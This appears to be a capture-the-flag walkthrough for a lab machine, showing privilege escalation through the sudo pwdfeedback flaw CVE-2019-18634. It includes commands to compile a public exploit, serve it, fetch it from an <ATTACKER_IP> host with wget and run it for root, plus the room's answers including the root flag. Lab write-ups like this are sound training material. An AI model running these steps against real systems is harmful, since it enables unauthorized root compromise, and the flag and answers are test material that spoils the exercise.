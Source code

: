 **Enumeration of privileges**

Now that you have an SSH session, you can grab the user flag. But that shouldn't be enough for you, you need root.  
A good first step for privilege escalation is seeing if you can run sudo. You have the password for the current user, so you can run the command:

sudo -l

![[Pasted image 20240228222507.png]]

This command tells you what commands you can run as the superuser with sudo. Unfortunately, the current user cannot run any commands as root. You may have noticed, however, that when you enter your password you see asterisks. This is not default behaviour. There was a recent CVE released that affects this configuration. The setting is called pwdfeedback.

*When pasting the password, we see the password length indicators. There is a CVE about this:*

	[github.com/saleemrashid/sudo-cve-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634)

*Copy exploit.c from the repo in the target machine and then compile it with `gcc` :*


![[Pasted image 20240229191032.png]]



Answer the questions below

| Question                                | Answer         |
| --------------------------------------- | -------------- |
| What is the CVE number for the exploit? | CVE-2019-18634 |

| Question                                                                                                                                               | Answer |
| ------------------------------------------------------------------------------------------------------------------------------------------------------ | ------ |
| Find the exploit from [https://github.com/saleemrashid/](https://github.com/saleemrashid/)[](https://github.com/saleemrashid/) and download the files. |        |

| Question                             | Answer |
| ------------------------------------ | ------ |
| Compile the exploit from Kali linux. |        |


```
gcc exploit.c -o exploit
```

Open server:

```
python3 -m http.server 8000
```


| Question                           | Answer |
| ---------------------------------- | ------ |
| SCP the exploit binary to the box. |        |

On **target** machine:

```
$ wget <ATTACKER_IP>:8000/exploit
$ chmod +x exploit
$ ./exploit
```

![[Pasted image 20240228224319.png]]


| Question                   | Answer                                |
| -------------------------- | ------------------------------------- |
| Run the exploit, get root. |                                       |
| What is the root flag?     | thm{af55ada6c2445446eb0606b5a2d3a4d2} |
